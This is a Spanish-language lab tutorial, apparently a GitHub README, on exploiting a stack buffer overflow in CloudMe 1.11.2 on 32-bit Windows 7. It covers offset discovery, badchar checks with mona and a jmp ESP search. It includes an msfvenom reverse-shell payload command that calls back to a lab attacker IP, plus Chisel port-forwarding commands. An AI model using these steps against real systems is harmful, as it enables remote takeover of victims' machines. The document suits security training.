# Buffer Overflow Cloudme 1.11.2

Tutorial de buffer overflow en Windows de 32 bits con el programa Cloudme 1.11.2. Se hace uso de maquinas virtuales, una máquina con Parrot OS (máquina atacante) y otra con Windows 7 (máquina víctima).

Para usar Cludme es necesario crearse una cuenta 



Con Immunity Debugger y con la utilidad mona vamos a determinar el offset y direcciones de memoria para ejecutar nuestro shell code. 

Cloudme usa el puerto 8888 pero no está a la vista desde la máquina atacante para poder conectarnos haremos uso de la herramienta Chisel, que nos permite compartir puertos internos de la máquina victima a la máquina atacante. Hay que descargar Chisel según la versión de OS.

Una vez descargado Chisel, desde la máquina atacante ejecutar ``` ./chisel server -p puerto --reverse ```



Y desde la máquina víctima 
```chisel.exe client IPMaquinaAtacante:puerto R:8888:127.0.0.1:8888 ```



Para comprobar que efectivamente se nos ha compartido el puerto con el comandos ```lsof -i:8888 ```



Con netcat podemos conectarnos al servicio



Al enviar datos se puede acontecer el Buffer Overflow para obtener el offset con pattern create crearemos un patrón que será enviado y con Immunity Debugger obtendremos la dirección de la memoría del EIP

```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700 ```





En la máquina victima con Immunity Debugger (ejecutar como administrador) nos sincronizamos con Cloudme, se pausará el programa darle al botón de play para que se reanude el flujo del programa. Una vez sincronicados ejecutar el script.



Con ``` pattern_offset -q dirección ``` se determina el offset con la dirección del EIP que se obtuvo en Immunity Debugger



En este caso el offset es de 1052.

Comprobamos que sea el offset





Ahora se determina los badchars (carácteres que el programa no puede interpretar) con la utildad mona.py se facilita esta tarea. Para ello se debe copiar en ``` C:\Program Files\Immunity Inc\Immunity Debugger\Libs ```

Con el comando ``` !mona config -set workingfolder C:\Users\Usuario\Desktop\%p ``` se crea un directorio de trabajo 



con ``` !mona bytearray ``` se generan dos archivo, uno de ellos bytearray.txt, que contiene los carácteres imprimibles.



Transferir el archivo bytearray.txt a la máquina atacante y añadir los carácteres en el script.




Ejecutar el script y desde Immunity Debugger en el EIP se tiene una dirección, se ejecuta 
``` !mona compare -f C:\Users\Users\Desktop\Cloudme\bytearray.bin -a direccion ``` para obtener un badchar)




    
En este caso no hay badchars por lo que se puede generar directamente el shell code

``` 
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.249.128 LPORT=443 -a x86 --platform windows -e x86/shikata_ga_nai -f c
```




Para que se logre interpretar el shell code se debe dar un salto al ESP, se busca la dirección a jmp ESP. Nasm_shell nos ayuda a obtener las direcciónes de instrucciones a bajo nivel en este caso la de jmp ESP.

```/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb```



Con ```!mona modules ``` se muestran los módulos de SLMail, se busca alguno que tenga Rebase, Safe, ASLR, NXCompat en "False". Se escoge qsqlite.dll




Se busca la dirección de jmp ESP en el módulo con ```
!mona find -s "\xff\xe4" -m qsqlite.dll ``` y se comprueba la dirreción a jmp ESP





En el script de python se añade la dirección de jmp ESP pero al ser 32 bits se debe de estar en Little Endian. Para convertir a Little Endian se separa la dirección en pares y se inverte el orden ``` 6D619117 ->  1791616D ```

Y finalmente se añade NOPs ```\x90``` al payload y se ejecuta el script para obtener una reverse shell





